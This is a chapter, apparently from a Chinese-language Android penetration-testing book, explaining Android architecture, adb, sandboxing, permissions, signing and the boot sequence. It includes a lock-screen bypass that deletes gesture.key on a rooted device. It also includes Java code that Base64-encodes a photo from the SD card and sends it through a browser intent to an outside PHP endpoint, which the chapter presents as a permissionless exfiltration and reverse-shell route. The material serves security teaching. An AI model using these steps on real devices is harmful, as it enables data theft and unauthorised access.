







## Android 简介

自从 Android 被谷歌收购（2005 年），谷歌已经完成了整个开发，在过去的 9 年里，尤其是在安全方面，有很多变化。 现在，它是世界上最广泛使用的智能手机平台，特别是由于不同的手机制造商，如 LG，三星，索尼和 HTC 的支持。 Android 的后续版本中引入了许多新概念，例如 Google Bouncer 和 Google App Verifier。 我们将在本章逐一介绍它们。

如果我们看看 Android 的架构，如下图所示，我们将看到它被分为四个不同的层。 在它的底部是 Linux 内核，它已被修改来在移动环境中获得更好的性能。 Linux 内核还必须与所有硬件组件交互，因此也包含大多数硬件驱动程序。 此外，它负责 Android 中存在的大多数安全功能。 由于 Android 基于 Linux 平台，它还使开发人员易于将 Android 移植到其他平台和架构。 Android 还提供了一个硬件抽象层，供开发人员在 Android 平台栈和他们想要移植的硬件之间创建软件钩子。

在 Linux 内核之上是一个层级，包含一些最重要和有用的库，如下所示：

Surface Manager：管理窗口和屏幕 媒体框架：这允许使用各种类型的编解码器来播放和记录不同的媒体 SQLite：这是一个较轻的 SQL 版本，用于数据库管理 WebKit：这是浏览器渲染引擎 OpenGL：用于在屏幕上正确显示 2D 和 3D 内容

以下是来自 Android 开发人员网站的 Android 架构的图形表示：



Android 中的库是用 C 和 C++ 编写的，其中大多数是从 Linux 移植的。 与 Linux 相比，Android 中的一个主要区别是，在这里没有`libc`库，它用于 Linux 中的大多数任务。 相反，Android 有自己的称为`bionic`的库，我们可以认为它是一个剥离和修改后的，用于 Android 的 libc 版本。

在同一层级，还有来自 Android 运行时 -- Dalvik 虚拟机和核心库的组件。 我们将在本书的下一部分中讨论关于 Dalvik 虚拟机的很多内容。

在这个层之上，有应用程序框架层，它支持应用程序执行不同类型的任务。

此外，开发人员创建的大多数应用程序只与第一层和最顶层的应用程序交互。 该架构以一种方式设计，在每个时间点，底层都支持上面的层级。

早期版本的 Android（<4.0）基于 Linux 内核 2.6.x，而较新版本基于内核 3.x. 不同的 Android 版本和他们使用的 Linux 内核的列表规定如下



Android 中的所有应用程序都在虚拟环境下运行，这称为 Dalvik 虚拟机（DVM）。 这里需要注意的一点是，从 Android 4.4 版本开始，还有另一个运行时称为 Android 运行时（ART），用户可以在 DVM 和 ART 运行时环境之间自由切换

然而，我们目前只关注 Dalvik 虚拟机实现。 它类似于 Java 虚拟机（JVM），除了基于寄存器的特性，而不是基于堆栈的特性。 因此，运行的每个应用程序都将在自己的 Dalvik 虚拟机实例下运行。 因此，如果我们运行三个不同的应用程序，将有三个不同的虚拟实例。 现在，这里的重点是，即使它为应用程序创建一个虚拟环境来运行，它不应该与安全容器或安全环境混淆。 DVM 的主要焦点是与性能相关，而不是与安全性相关

Dalvik 虚拟机执行一个名为`.dex`或 Dalvik 可执行文件的文件格式。 我们将进一步查看`.dex`文件格式，并将在下面的章节中进行分析。 现在让我们继续与 adb 进行交互，并更深入地分析 Android 设备及其体系结构。

## 深入了解Android

如果你有 Android 设备或正在运行Android模拟器，则可以使用 Android SDK 本身提供的工具（称为 adb）。 我们将在第二章详细讨论 adb。 现在，我们将只设置 SDK，我们已经准备好了。

一旦设备通过 USB 连接，我们可以在我们的终端中输入 adb，这将显示所连接设备的序列号列表。 请确保你已在设备设置中启用了 USB 调试功能。

```shell
adb devices

List of devices attached
emulator-5554   device
```

现在，如我们之前所见，Android 是基于 Linux 内核的，所以大多数 Linux 命令在 Android 上也可以通过 adb shell 完美运行。 adb shell 为你提供与设备的 shell 直接交互，你可以在其中执行命令和执行操作以及分析设备中存在的信息。 为了执行 shell，只需要键入以下命令：

```shell
adb shell
```

一旦我们在 shell 中，我们可以运行`ps`为了列出正在运行的进程：



如你所见，`ps`将列出当前在 Android 系统中运行的所有进程。 如果仔细看，第一列制定了用户名。 在这里我们可以看到各种用户名，如`system`，`root`，`radio`和一系列以`app_`开头的用户名。 正如你可能已经猜到的，以`system`名称运行的进程由系统拥有，`root`作为根进程运行，`radio`是与电话和无线电相关的进程，`app_`进程是用户已下载的所有应用程序， 安装在他们的设备上并且当前正在运行。 因此，就像在 Linux 中用户确定了当前登录到系统的唯一用户一样，在 Android 中，用户标识了在自己的环境中运行的应用/进程。

所以，Android 安全模型的核心是 Linux 特权分离。 每次在 Android 设备中启动新应用程序时，都会为其分配唯一的用户 ID（UID），该用户 ID 将之后会属于某些其他预定义组。

与 Linux 类似，用作命令的所有二进制文件都位于`/system/bin`和`/system /xbin`。 此外，我们从 Play 商店或任何其他来源安装的应用程序数据将位于`/data/data`，而其原始安装文件（即`.apk`）将存储在`/data/app`。 此外，还有一些应用程序需要从 Play 商店购买，而不是只是免费下载。 这些应用程序将存储在`/data/app-private/`。

Android 安装包（APK）是 Android 应用程序的默认扩展名，它只是一个归档文件，包含应用程序的所有必需文件和文件夹。 我们在后面的章节中将继续对`.apk`文件进行逆向工程。

现在，让我们访问`/data/data`，看看里面有什么。 这里需要注意的一点是，为了在真实设备上实现，设备需要 root 并且必须处于`su`模式：

```shell
cd /data/data
ls

com.aditya.facebookapp
com.aditya.spinnermenu
com.aditya.zeropermission
com.afe.socketapp
com.android.backupconfirm
com.android.browser
com.android.calculator2
com.android.calendar
com.android.camera
com.android.certinstaller
com.android.classic
com.android.contacts
com.android.customlocale2
```

所以，我们可以在这里看到，例如，`com.aditya.facebookapp`，是单独的应用程序文件夹。 现在，你可能会想知道为什么它是用点分隔的单词风格，而不是常见的文件夹名称，如`FacebookApp`或`CameraApp`。

因此，这些文件夹名称指定各个应用程序的软件包名称。 软件包名称是应用程序在 Play 商店和设备上标识的唯一标识符。 例如，可能存在具有相同名称的多个相机应用或计算器应用。 因此，为了唯一地标识不同的应用，使用包名称约定而不是常规应用名称。

如果我们进入任何应用程序文件夹，我们会看到不同的子文件夹，例如文件（`files`），数据库（`databases`）和缓存（`cache`），稍后我们将在第 3 章“逆向和审计 Android 应用程序”中查看。

```shell
shell@android:/data/data/de.trier.infsec.koch.droidsheep  ls
cache
databases
files
lib
```

这里需要注意的一个重要的事情是，如果手机已经 root，我们可以修改文件系统中的任何文件。 对设备获取 root 意味着我们可以完全访问和控制整个设备，这意味着我们可以看到以及修改任何我们想要的文件。

最常见的安全保护之一是大多数人都想到的是模式锁定或 pin 锁，它默认存在于所有Android手机。 你可以通过访问`Settings | Security | Screen Lock`来配置自己的模式。

一旦我们设置了密码或模式锁定，我们现在将继续，将手机与 USB 连接到我们的系统。 现在，密码锁的密钥或模式锁的模式数据以名称`password.key`或`gesture.key`存储在`/data/system`。 注意，如果设备被锁定，并且 USB 调试被打开，你需要一个自定义引导加载程序来打开 USB 调试。 整个过程超出了本书的范围。 要了解有关 Android 的更多信息，请参阅 Thomas Cannon Digging 的 Defcon 演示

因为破解密码/模式将更加艰难，并且需要暴力（我们将看到如何解密实际数据），我们将简单地继续并删除该文件，这将从我们手机中删除模式保护 ：

```shell
shell@android:/data \# cd /data/system
shell@android:/data/system \# rm gesture.key
```

所以，我们可以看到，一旦手机被 root ，几乎任何东西都可以只用手机、一根USB电缆和一个系统来完成。 我们将在本书的后续章节中更多地了解基于 USB 的利用。

## 沙箱和权限模型

为了理解 Android 沙箱，让我们举一个例子，如下图：



如前图所示和前面所讨论的，Android 中的每个应用程序都在其自己的 Dalvik 虚拟机实例中运行。 这就是为什么，无论何时任何应用程序在我们的设备中崩溃，它只是显示强制关闭或等待选项，但其他应用程序继续顺利运行。 此外，由于每个应用程序都在其自己的实例中运行，因此除非内容提供者另有规定，否则将无法访问其他应用程序的数据。

Android 使用细粒度的权限模型，这需要应用程序在编译最终应用程序包之前预定义权限。

你必须注意到，每次从 Play 商店或任何其他来源下载应用程序时，它会在安装过程中显示一个权限屏幕，它类似于以下屏幕截图：



此权限屏幕显示应用程序可以通过手机执行的所有任务的列表，例如发送短信，访问互联网和访问摄像头。 请求多于所需的权限使应用程序成为恶意软件作者的更具吸引力的目标。

Android 应用程序开发人员必须在开发应用程序时在名为`AndroidManifest.xml`的文件中指定所有这些权限。 此文件包含各种应用程序相关信息的列表，例如运行程序所需的最低 Android 版本，程序包名称，活动列表（应用程序可见的应用程序中的界面），服务（应用程序的后台进程） ，和权限。 如果应用程序开发人员未能在`AndroidManifest.xml`文件中指定权限，并仍在应用程序中使用它，则应用程序将崩溃，并在用户运行它时显示强制关闭消息。

一个正常的`AndroidManifest.xml`文件看起来像下面的截图所示。 在这里，你可以使用`<uses-permission>`标记和其他标记查看所需的不同权限：


如前所述，所有 Android 应用程序在安装后首次启动时都会分配一个唯一的 UID。 具有给定 UID 的所有用户都属于特定组，具体取决于他们请求的权限。 例如，一个仅请求 Internet 权限的应用程序将属于`inet`组，因为 Android 中的 Internet 权限位于`inet`组下。

用户（在这种情况下的应用程序）可以属于多个组，具体取决于他们请求的权限。 或者换句话说，每个用户可以属于多个组，并且每个组可以具有多个用户。 这些组具有由组 ID（GID）定义的唯一名称。 然而，开发人员可以明确地指定其他应用程序在与第一个相同的 UID 下运行。 在我们的设备中，其中的组和权限在文件`platform.xml`中指定，它位于`/system/etc/permissions/`

```shell
shell@grouper:/system/etc/permissions $ cat platform.xml
<permissions>

. . .
   <!-- ================================================================== -->

    <!-- The following tags are associating low-level group IDs with
         permission names. By specifying such a mapping, you are saying
         that any application process granted the given permission will
         also be running with the given group ID attached to its process,
         so it can perform any filesystem (read, write, execute) operations
         allowed for that group. -->

    <permission name="android.permission.BLUETOOTH" >
        <group gid="net_bt" />
    </permission>

    <permission name="android.permission.INTERNET" >
        <group gid="inet" />
    </permission>

    <permission name="android.permission.CAMERA" >
        <group gid="camera" />
    </permission>

. . .  [Some of the data has been stripped from here in order to shorten the output and make it readable]

</permissions>
```

此外，这清除了对在 Android 设备中运行的本地应用程序的怀疑。 由于本地应用程序直接与处理器交互，而不是在 Dalvik 虚拟机下运行，因此它不会以任何方式影响整体安全模型

现在，就像我们在前面部分看到的，应用程序将其数据存储在`location/data/data/[package name]`。 现在，存储应用程序数据的所有文件夹也具有相同的用户 ID，这构成 Android 安全模型的基础。 根据 UID 和文件权限，它将限制来自具有不同 UID 的其他应用程序对它的访问和修改。

在下面的代码示例中，`ret`包含以 Base64 格式编码存储在的 SD 卡中的图像，现在正在使用浏览器调用来上传到`attify.com`网站。 目的只是找到一种方式来在两个不同的 Android 对象之间进行通信。

我们将首先创建一个对象来存储图像，在 Base64 中编码，最后将其存储在一个字符串中`imageString`：

```java
final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
    InputStream is = cr.openInputStream(uri);
    bMap = BitmapFactory.decodeStream(is);
    if (is != null) {
        is.close();
    }  
} catch (Exception e) {
    Log.e("Error reading file", e.toString());
}

ByteArrayOutputStream baos = new ByteArrayOutputStream();  
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);   
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);
```

最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个`.php`文件侦听传入的数据：

```java
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+imageString)));
```

我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点是 shell 应该在应用程序的用户下运行：

```java
// To execute commands : 
String str = "cat /proc/version";     //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
```

这是一个有趣的现象，因为攻击者可以获得一个反向 shell（这是一个从设备到系统的双向连接，可以用于执行命令），而不需要任何类型的权限。

## 应用签名

应用程序签名是 Android 的独特特性之一，由于其开放性和开发人员社区，它取得了成功。 Play 商店中有超过一百万个应用。 在 Android 中，任何人都可以通过下载 Android SDK 创建 Android 应用，然后将其发布到 Play 商店。 通常有两种类型的证书签名机制。 一个是由管理证书颁发机构（CA）签名的，另一个是自签名证书。 没有中间证书颁发机构（CA），而开发人员可以创建自己的证书并为应用程序签名。

在 Apple 的 iOS 应用程序模型中可以看到 CA 签名，其中开发者上传到 App Store 的每个应用程序都经过验证，然后由 Apple 的证书签名。 一旦下载到设备，设备将验证应用程序是否由 Apple 的 CA 签名，然后才允许应用程序运行。

但是，在 Android 中是相反的。 没有证书颁发机构; 而是开发人员的自创建证书可以签署应用程序。 应用程序上传完成后，会由 Google Bouncer 进行验证，这是一个虚拟环境，用于检查应用程序是否是恶意或合法的。 检查完成后，应用就会显示在 Play 商店中。 在这种情况下，Google 不会对该应用程序进行签名。 开发人员可以使用 Android SDK 附带的工具（称为`keytool`）创建自己的证书，或者使用 Eclipse 的 GUI 创建证书。

因此，在 Android 中，一旦开发人员使用他创建的证书签名了应用程序，他需要将证书的密钥保存在安全的位置，以防止其他人窃取他的密钥并使用开发人员的证书签署其他应用程序 。

如果我们有一个 Android 应用程序（`.apk`）文件，我们可以检查应用程序的签名，并找到使用称为`jarsigner`的工具签署应用程序的人，这个工具是 Android SDK 自带的：

```shell
jarsigner -verify -certs -verbose testing.apk
```

以下是在应用程序上运行上述命令并获取签名的信息的屏幕截图


此外，解压缩`.apk`文件后，可以解析`META-INF`文件夹中出现的`CERT.RSA`文件的 ASCII 内容，以获取签名，如以下命令所示：

```shell
unzip testing.apk
cd META-INF
openssl pkcs7 -in CERT.RSA -print_certs -inform DER -out out.cer
cat out.cer
```

这在检测和分析未知的 Android `.apk`示例时非常有用。 因此，我们可以使用它获得签署人以及其他详细信息。

## Android 启动流程

在 Android 中考虑安全性时最重要的事情之一是 Android 启动过程。 整个引导过程从引导加载程序开始，它会反过来启动`init`过程 - 第一个用户级进程。

所以，任何引导加载程序的变化，或者如果我们加载另一个，而不是默认存在的引导加载程序，我们实际上可以更改在设备上加载的内容。 引导加载程序通常是特定于供应商的，每个供应商都有自己的修改版本的引导加载程序。 通常，默认情况下，此功能通过锁定引导加载程序来禁用，它只允许供应商指定的受信任内核在设备上运行。 为了将自己的 ROM 刷到 Android 设备，需要解锁引导加载程序。 解锁引导加载程序的过程可能因设备而异。 在某些情况下，它也可能使设备的保修失效

在 Nexus 7 中，它就像使用命令行中的`fastboot`工具一样简单，如下所示：

```shell
fastboot oem unlock
```

在其他设备中，可能需要更多精力。 我们看看如何创建自己的 Bootloader 并在本书的后续章节中使用它。

回到启动过程，在引导加载程序启动内核并启动`init`之后，它挂载了 Android 系统运行所需的一些重要目录，例如`/dev`，`/sys`和`/proc`。 此外，`init`从配置文件`init.rc`和`init.[device-name].rc`中获取自己的配置，在某些情况下从位于相同位置的`.sh`文件获取自己的配置。


如果我们对`init.rc`文件执行`cat`，我们可以看到`init`加载自身时使用的所有规范，如下面的截图所示：



`init`进程的责任是启动其他必需的组件，例如负责 ADB 通信和卷守护程序（vold）的 adb 守护程序（adbd）。

加载时使用的一些属性位于`build.prop`，它位于`location/system`。 当你在 Android 设备上看到 Android logo 时，就完成了`init`进程的加载。 正如我们在下面的截图中可以看到的，我们通过检查`build.prop`文件来获取设备的具体信息:



一旦所有的东西被加载，`init`最后会加载一个称为 Zygote 的进程，负责以最小空间加载 Dalvik 虚拟机和共享库，来加快整个进程的加载速度。 此外，它继续监听对自己的新调用，以便在必要时启动更多 DVM。 这是当你在设备上看到 Android 开机动画时的情况。

一旦完全启动，Zygote 派生自己并启动系统，加载其他必要的 Android 组件，如活动管理器。 一旦完成整个引导过程，系统发送`BOOT_COMPLETED`的广播，许多应用程序可能使用称为广播接收器的 Android 应用程序中的组件来监听。 当我们在第 3 章“逆向和审计 Android 应用程序”中分析恶意软件和应用程序时，我们将进一步了解广播接收器

## 总结

在本章中，我们为学习 Android渗透测试建立了基础。 我们还了解 Android 的内部结构及其安全体系结构。

在接下来的章节中，我们将建立一个 Android 渗透测试实验室，并使用这些知识执行更多的技术任务，来渗透 Android 设备和应用程序。 我们还将了解有关 ADB 的更多信息，并使用它来收集和分析设备中的信息。